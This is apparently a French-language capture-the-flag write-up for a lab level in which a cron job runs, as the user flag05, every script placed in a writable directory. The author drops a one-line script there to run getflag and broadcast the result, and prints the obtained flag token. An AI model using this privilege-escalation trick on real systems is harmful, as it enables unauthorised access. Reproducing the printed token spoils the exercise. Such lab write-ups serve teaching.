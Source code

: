 # Level 05

À la connexion de l'user level05, on a une petite notification nous disant qu'on a reçu un nouveau mail. Donc la première chose qu'on fait c'est de voir ce mail
```
$ cat /var/mail/*
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
On a donc un script sh `/usr/sbin/openarenaserver` qui s'exécute périodiquement sur l'user flag05

```
$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
Ce script lit tous les fichiers présents dans le dossier `/opt/openarenaserver` et les lances avec bash puis les supprime.

On fait petit script qui va print sur tous les terminaux le flag et attendre le cron
```
$ echo "getflag | wall" > /opt/openarenaserver/flagIsMine
```
Et voilà !
```
Broadcast Message from flag05@Snow
        (somewhere) at 17:16 ...

Check flag.Here is your token : viuaaale9huek52boumoomioc
```